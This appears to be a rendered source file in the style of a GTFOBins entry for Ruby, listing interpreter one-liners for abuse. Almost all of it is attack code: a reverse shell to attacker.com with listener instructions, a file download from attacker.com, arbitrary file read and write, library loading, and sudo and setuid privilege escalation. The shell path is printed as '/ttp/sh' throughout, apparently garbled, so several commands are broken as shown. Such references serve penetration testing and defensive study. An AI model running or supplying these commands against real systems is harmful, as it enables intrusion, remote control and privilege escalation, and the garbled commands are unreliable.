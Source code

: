 ```yaml
---
functions:
  shell:
    - code: ruby -e 'exec "/ttp/sh"'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  file-upload:
    - description: Serve files in the local folder running an HTTP server. This requires version 1.9.2 or later.
      code: |
        export LPORT=8888
        ruby -run -e httpd . -p $LPORT
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        ruby -e 'require "open-uri"; download = open(ENV["URL"]); IO.copy_stream(download, ENV["LFILE"])'
  file-write:
    - code: ruby -e 'File.open("file_to_write", "w+") { |f| f.write("DATA") }'
  file-read:
    - code: ruby -e 'puts File.read("file_to_read")'
  library-load:
    - code: ruby -e 'require "fiddle"; Fiddle.dlopen("lib.so")'
  sudo:
    - code: sudo ruby -e 'exec "/ttp/sh"'
  capabilities:
    - code: ./ruby -e 'Process::Sys.setuid(0); exec "/ttp/sh"'
---
```

